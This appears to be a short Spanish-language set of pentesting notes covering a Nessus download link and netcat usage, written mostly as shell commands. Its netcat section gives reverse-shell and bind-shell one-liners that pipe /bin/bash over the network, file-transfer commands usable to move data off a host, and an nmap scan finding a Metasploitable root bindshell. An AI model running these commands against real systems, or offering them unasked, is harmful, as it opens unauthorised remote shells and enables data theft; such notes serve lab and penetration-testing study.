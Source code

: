 [actualizaciones](https://www.tenable.com/downloads/nessus?loginAttempted=true)

#### Esentials

[Registro](https://es-la.tenable.com/products/nessus/nessus-essentials)

### Escaneo

Nuevo escaneo > basico > 

## Reverse Shell

### NETCAT

```sh
nc -v {TARGET} {PORT} # establecer tuberia de datos
nc -vz {TARGET} {PORT} # -z conectarse

nc -vC  {TARGET} {PORT} # Consola

❯ nc -vC www.ciudadwireless.com 80
Connection to www.ciudadwireless.com (178.33.118.157) 80 port [tcp/http] succeeded!
GET / HTTP/1.1
Host: www.ciudadwireless.com

nc -nlvp 4444 # Abrir servidor de escucha // -n no resolucion DSN ; -l listen ; -v infromacion ; -p puerto
nc -nv {TARGET ↖} {PORT ↖} # Conectarse

# Transferencia de archivos
nc -nlvp 4444 > file # abrimos servidor para enviar
nc -nv {TARGET ↖} 4444 < file # Conectamos y enviamos el contenido de ese fichero

nc -nlvp 4444 < file # abrimos servidor para recivir
nc -nv {TARGET} 4444 > file

# Terminal
nc -nlvp 4444 -e /bin/bash # abre servidor para conectarse a su bash

nc -nvlp 80 # escucha en el puerto 80
nc -nv {TARGET} 80 -e /bin/bash # Victoma se conecta al y envia una terminal

apt install ncat
ncat -vz {TARGET} {PORT}
```

### bindshell

```sh
❯ sudo nmap -n -PN -sS -sV {TARGET}
1524/tcp open  bindshell   Metasploitable root shell

nc -v {TARGET} 1524
```
